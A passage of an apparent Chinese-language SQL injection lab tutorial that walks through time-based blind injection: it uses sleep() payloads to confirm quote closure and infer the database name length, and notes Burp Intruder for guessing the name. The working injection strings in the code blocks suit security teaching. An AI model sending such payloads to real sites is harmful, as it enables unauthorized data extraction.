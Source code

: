 ```php
?id=1' and sleep(5) --+ //满足闭合条件，页面延迟回显
?id=1' and sleep(5) //不满足闭合条件，页面直接回显
```

我们可以使用浏览器的【网络】功能进行更直观的判断，当我们不满足闭合条件时，延迟为 108 毫秒  
![](assets/1707473863-52d3089bbfc07a43b02205d104345a6c.png)  
当满足闭合条件时，可以看到延迟增加了五秒  
![](assets/1707473863-8debdf949ef4554e20033d2f31e2bc43.png)  
先获取一下库长度，当长度为 8 时，会延迟 5 秒执行，所以可以确定库长度为 8

```php
?id=1' and if(length(database())=8,sleep(5),1)--+
```

![](assets/1707473863-201d47a8ef2eeea0b5fed81840cf168e.png)  
下面再来判断库名，为了方便观察将延时时间调为 15 秒，这步如果手工测试效率会非常低，我们依然是使用 Intruder 模块
